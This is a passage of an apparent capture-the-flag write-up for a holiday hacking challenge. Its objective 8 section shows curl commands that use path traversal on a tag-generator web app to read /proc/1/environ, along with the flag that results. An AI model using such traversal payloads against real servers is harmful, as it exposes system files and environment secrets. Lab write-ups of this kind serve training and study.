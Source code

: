 We comply with this and provide an ID with:

```
curl -k -s -L https://tag-generator.kringlecastle.com/image\&id\=1
<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: Route not found</p>
```

Ok, you now have an ID variable. Try to launch a path traversal attack.

<img src="{{ page.image-base | prepend:site.baseurl }}obj_8_step_2.png" width="100%" alt="objective 8 step 2 check path traversal">

This will give you access to the code.

To read the environment variables you can use:

<pre><code class="bash">curl -k -s -L -O &#39;https://tag-generator.kringlecastle.com/image?id=../../../../../../../../../../../../../../../proc/1/environ&#39;
cat environ                                                            
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
</code></pre>

whereas the value in

<pre><code>proc/x/environ</code></pre> 

could be another. Start incrementing from 1.

You have to use the `-O` or `--output -` because curl assumes a binary. 

Solution:

**JackFrostWasHere**

## 9 - ARP Shenanigans

### Challenge

<img src="{{ page.image-base | prepend:site.baseurl }}intro_obj_9.png" width="100%" alt="Introduction objective 9">

### Location

NetWars

<img src="{{ page.image-base | prepend:site.baseurl }}pic_obj_9.png" style="display:block;margin-left:auto;margin-right:auto" width="50%" alt="location objective 8">

### Possible solution

Use the following code:

<pre><code class="bash">cat arp_resp.py</code></pre>
